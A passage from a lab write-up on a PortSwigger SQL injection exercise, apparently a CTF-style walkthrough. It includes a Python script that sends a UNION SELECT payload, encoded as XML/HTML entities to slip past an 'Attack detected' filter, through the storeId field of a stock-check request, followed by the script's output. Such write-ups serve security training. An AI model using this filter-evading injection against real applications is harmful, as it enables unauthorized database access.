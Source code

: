 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211025935.png)

**As we can see, the `"Attack detected"` is gone, and we successfully triggered an SQL injection payload!**

**Let's find how many columns are there:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211030046.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211030100.png)

**Hmm... When we try to fetch more than 1 column, it returns `0 units`, which indicates that's an error occurred.**

**For the sake of automation, I'll write a python script:**
```py
#!/usr/bin/python3

import requests

def main():
    url = 'https://0a81001a045a7203c0f32139003300c9.web-security-academy.net/product/stock'

    cookie = {
        'session': 'YOUR_SESSIONID'
    }

    header = {
        'Content-Type': 'application/xml'
    }

    # UNION SELECT NULL
    payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;'
    
    xml = f'''<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>1</productId>
        <storeId>1 {payload}</storeId>
    </stockCheck>'''

    print(requests.post(url, cookies=cookie, headers=header, data=xml).text)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
381 units
null
```
